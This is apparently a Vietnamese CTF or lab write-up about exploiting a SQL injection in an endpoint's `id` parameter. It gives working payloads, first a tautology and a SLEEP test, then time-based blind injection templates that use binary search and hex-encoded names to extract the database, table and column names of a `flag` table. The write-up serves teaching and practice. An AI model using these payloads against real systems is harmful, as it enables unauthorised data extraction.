 Và trong endpoint này được truyền qua tham số `id` cũng thông qua hàm `getInfoFromUserId()` (đã có giải thích ở **KB-01**), từ đây mình có thể truyền các payload SQLi để có thể lấy data. 

### Step to reproduce 

Đầu tiên, ta sẽ truyền thử payload: 
```bash=
id=0 OR 1=1-- a
```
![image](https://hackmd.io/_uploads/rkSM1tyblg.png)

Kết quả vẫn trả ra thông tin của admin nghĩa nó đã thực hiện vế `OR 1=1` là luôn đúng.

Sau khi thử nhiều payload thì nhận định đây SQLi Time Base Delay.

Payload tiếp theo ta truyền là: 
```bash=mysql
id=0 OR SLEEP(10)-- a
```
![image](https://hackmd.io/_uploads/Skr-eFyWxl.png)

Từ đây mình có thể viết script để có thể xác định tên database hiện đang dùng. 

Payload đầu tiên sẽ là: 

```bash=
OR IF((SELECT ASCII(SUBSTRING(database(),{i},1))>{mid}),SLEEP(1),0)
```
Kỹ thuật ta sử dụng kỹ thuật **Blind SQL Injection (Time-based)** kết hợp với **Binary Search** để khai thác lỗ hổng. 

Do ứng dụng không phản hồi dữ liệu ra ngoài, ta sử dụng câu truy vấn `IF(..., SLEEP(x), 0)` để xác định đúng/sai thông qua độ trễ thời gian phản hồi. 

Binary Search giúp giảm số lần thử nghiệm từ khoảng 95 ký tự còn khoảng 7 lần cho mỗi ký tự cần dò, giúp tiết kiệm thời gian và tăng độ hiệu quả trong quá trình khai thác.

![image](https://hackmd.io/_uploads/ByWo8K-blg.png)
<p style="text-align:center"><em>Python code Exploit Blind SQL Injection</em></p>

Kết quả được, tên database hiện tại là `tonghop`
![image](https://hackmd.io/_uploads/SJRNUtZble.png)

Tiếp theo ta lấy tên các bảng trong database này, đoạn code vẫn giống, ta chỉ thay đổi payload cho phù hợp:
```bash=
OR IF((SELECT LENGTH(GROUP_CONCAT(table_name))FROM information_schema.tables WHERE table_schema=database())={i},SLEEP(1),0)
```

Kết quả:
![image](https://hackmd.io/_uploads/HyP7FK--xx.png)

Ta đã thấy bảng `flag`, giờ ta sẽ lấy các cột trong bảng này.

Và do ta bị giới hạn dấu `'` thì nên mình không thể chỉ định tên bảng như bình thường. Nên mình truyền payload như sau:
```bash=
OR IF((SELECT LENGTH(GROUP_CONCAT(column_name))FROM information_schema.columns WHERE table_name={table_hex})={i},SLEEP(1),0)
```
Thì bảng `flag` thì mình sẽ hex thành `0x666c6167` sau đó truyền vào câu query trên.
